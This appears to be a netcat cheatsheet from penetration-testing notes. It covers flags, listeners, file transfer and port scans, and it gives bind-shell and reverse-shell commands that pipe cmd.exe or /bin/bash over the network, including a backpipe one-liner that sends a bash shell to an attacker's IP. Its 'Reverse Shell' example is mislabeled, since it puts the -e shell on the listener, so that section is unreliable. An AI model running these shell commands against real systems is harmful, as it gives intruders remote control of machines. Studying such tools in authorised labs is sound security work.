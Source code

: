 # Netcat Cheatsheet

\*Hobbit\*: *"a simple utility which reads and writes data across network connections, using TCP or UDP protocols."*

[sourceforge.page](https://nc110.sourceforge.io/)

## -e
Kali linux has nc compiled with the flag: `-DGAPING_SECURITY_HOLE` with enabled -e option **MOST** modern Linux/BSD system **DON'T SUPPORT** -e. This option can redirect the input, output, and error messages of an executable to a TCP/UDP port rather than the default console.

## Flags
```bash
-n	skip DNS name resolution
-v	verbosity
-l	listener
-p	port
```

## Useful commands and context

Interact with application:
```bash
nc -nv $IP $PORT
```
Listener:
```bash
nc -nlvp $PORT
```
File transfer (client):
```bash
nc -nlvp $PORT > $FILE
```
File transfer (server):
```bash
nc -nv $IP $PORT < $FILE_TO_SEND
```

Bind shells
```bash
nc -nlvp $PORT -e cmd.exe # Listener
nc -nv $IP $PORT
```

Reverse Shell
```bash
nc -nv $IP $PORT
nc -nlvp $PORT -e /bin/bash  # Listener
```

NC disabled -e oldschool [Ed Skoudis](https://twitter.com/edskoudis)
```bash
mknod backpipe p; nc $attacker_ip $port 0<backpipe | /bin/bash 1>backpipe
```

Port scan with NC
```bash
# -w timeout 
# -z for zero-I/O mode
nc -nvv -w 1 -z $ip 1-10000
# UDP scan
nc -nv -u -z -w 1 192.168.50.149 120-123
```

## References

[sourceforge.page](https://nc110.sourceforge.io/)
[Ed Skoudis](https://twitter.com/edskoudis)
